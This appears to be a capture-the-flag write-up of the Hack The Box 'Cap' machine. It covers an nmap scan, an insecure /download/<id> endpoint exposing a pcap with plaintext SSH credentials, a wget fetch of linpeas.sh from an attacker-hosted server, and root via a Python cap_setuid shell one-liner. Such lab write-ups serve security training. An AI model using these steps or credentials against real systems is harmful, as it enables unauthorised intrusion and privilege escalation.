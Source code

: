 +++
title = 'Hack The Box: Cap'
date = 2024-11-01T22:59:51+02:00
draft = false
showpage = true
ctfcard = true
photoname = 'cap_cert.png'
ctf_name = 'Cap'
cert_path = 'https://www.hackthebox.com/achievement/machine/2124852/351'
+++

Let ip_address=10.10.10.10.<br>
Scan the machine with nmap.
```nmap
sudo nmap -sS -sV -sC -T4 -v -Pn 10.10.10.10

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-01 14:55 EDT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 14:55
Completed NSE at 14:55, 0.00s elapsed
Initiating NSE at 14:55
Completed NSE at 14:55, 0.00s elapsed
Initiating NSE at 14:55
Completed NSE at 14:55, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 14:55
Completed Parallel DNS resolution of 1 host. at 14:55, 0.02s elapsed
Initiating SYN Stealth Scan at 14:55
Scanning 10.10.10.245 [1000 ports]
Discovered open port 22/tcp on 10.10.10.245
Discovered open port 21/tcp on 10.10.10.245
Discovered open port 80/tcp on 10.10.10.245
Completed SYN Stealth Scan at 14:55, 3.58s elapsed (1000 total ports)
Initiating Service scan at 14:55
Scanning 3 services on 10.10.10.245
Completed Service scan at 14:57, 135.22s elapsed (3 services on 1 host)
NSE: Script scanning 10.10.10.245.
Initiating NSE at 14:57
Completed NSE at 14:57, 12.21s elapsed
Initiating NSE at 14:57
Completed NSE at 14:57, 1.16s elapsed
Initiating NSE at 14:57
Completed NSE at 14:57, 0.01s elapsed
Nmap scan report for 10.10.10.245
Host is up (0.065s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: Security Dashboard
|_http-server-header: gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Fri, 01 Nov 2024 18:55:40 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Fri, 01 Nov 2024 18:55:27 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Fri, 01 Nov 2024 18:55:31 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: GET, HEAD, OPTIONS
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.94SVN%I=7%D=11/1%Time=67252411%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,4C56,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\
SF:x20Fri,\x2001\x20Nov\x202024\x2018:55:27\x20GMT\r\nConnection:\x20close
SF:\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20
SF:19386\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en\
SF:">\n\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20
SF:\x20<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\x
SF:20\x20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<me
SF:ta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-sca
SF:le=1\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"im
SF:age/png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\x
SF:20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.css
SF:\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/
SF:font-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\
SF:x20href=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20r
SF:el=\"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x20
SF:\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.mi
SF:n\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/stati
SF:c/css/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOpt
SF:ions,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Fri,
SF:\x2001\x20Nov\x202024\x2018:55:31\x20GMT\r\nConnection:\x20close\r\nCon
SF:tent-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20GET,\x20HEAD,\x2
SF:0OPTIONS\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.1
SF:\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20t
SF:ext/html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20\
SF:x20\x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<bod
SF:y>\n\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20Inv
SF:alid\x20HTTP\x20Version\x20&#x27;Invalid\x20HTTP\x20Version:\x20&#x27;R
SF:TSP/1\.0&#x27;&#x27;\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest,
SF:189,"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\x
SF:20Fri,\x2001\x20Nov\x202024\x2018:55:40\x20GMT\r\nConnection:\x20close\
SF:r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x202
SF:32\r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2\
SF:x20Final//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found</
SF:h1>\n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x20
SF:server\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x2
SF:0check\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

A few interesting things are:
- port 21 ftp server (maybe we can login as anonymous, with no credentials)
- port 80 http server (navigate through the website to find vulnerablities)
- gunicorn, search for exploits depending on the running version

First let's try to login to ftp.
```bash
ftp 10.10.10.10 21
USER anonymous # (try also USER <nothing just press enter>)
PASS <nothing press enter>
```

No luck, failed to login. Next step is to check this gunicorn server, which is a Python based server.
Let's head to `http://10.10.10.10/`.
![lab](lab1.png)

If we go to "Security Snapshot (5 Second PCAP + Analysis)" page there is download button which seems to download a `.pcap`. Open wireshark to inspect this file.

![wireshark](lab2.png)

This is HTTP traffic from us. So there isn't anything usefull here. If we inspect the GET request of the browser when clicking the download button, we can see it is `http://10.10.10.10/download/4`, hence the form is `/download/<id>`

![wireshark](lab3.png)

The id is incremented for every capture. It's possible that there were packet captures from users before us.
Browsing to `/data/0` does indeed reveal a packet capture with multiple packets.

![wireshark](lab4.png)

The traffic is not encrypted so we can get the username and password combination easily, `nathan:Buck3tH4TF0RM3`.
Now let's try to ssh.

```bash
ssh nathan@10.10.10.10
```

We got a foothold into the system and found the user `flag.txt`.

So now we need to find a way to get root access. The system has already linpeas.sh script which we can use to do a fast scan for any previlege escalation opening.

Note: If linpeas.sh wasn't in the attacking system we could transfer it from our Kali with a web server `python3 -m http.server 1234` and download it in the attacking system with `wget http://<ip_address>:1234/linpeas.sh`

One very interesting result from `linpeas.sh` is at the `Capabilities section`

![capabilities](lab5.png)

`/usr/bin/python3.8` has set `cap_setuid`

![alt](lab6.png)

So if we execute, we should get root previleges.
```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

We just gained ownership of the Cap Mahcine!